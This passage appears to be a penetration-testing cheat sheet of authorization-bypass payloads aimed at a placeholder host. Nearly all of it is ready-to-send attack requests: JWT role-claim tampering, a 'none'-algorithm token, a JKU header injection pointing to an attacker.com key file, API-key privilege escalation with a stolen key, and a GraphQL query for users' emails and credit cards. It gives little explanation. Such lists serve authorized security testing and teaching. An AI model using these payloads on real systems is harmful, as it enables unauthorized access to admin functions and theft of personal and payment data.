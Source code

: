 ### HEAD Method for Discovery
```http
HEAD /admin/ HTTP/1.1
Host: target.com
```

---

## JWT Token Manipulation

### Role Claim Tampering
```http
GET /api/admin/users HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoic3VwZXJfYWRtaW4ifQ.changed_signature
```

### None Algorithm Exploit
```http
GET /api/user/profile HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

### JKU Header Injection
```http
GET /api/admin HTTP/1.1
Host: target.com
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImprdSI6Imh0dHBzOi8vYXR0YWNrZXIuY29tL2tleXMuanNvbiJ9.evil_payload
```

---

## API Authorization Testing

### Missing Authorization Header
```http
GET /api/v1/users HTTP/1.1
Host: target.com
```

### API Key Privilege Escalation
```http
GET /api/v1/admin/settings HTTP/1.1
Host: target.com
X-API-Key: stolen_low_priv_key
```

### GraphQL Authorization Bypass
```graphql
query {
  adminDashboard {
    allUsers {
      email
      creditCards
    }
  }
}
```

---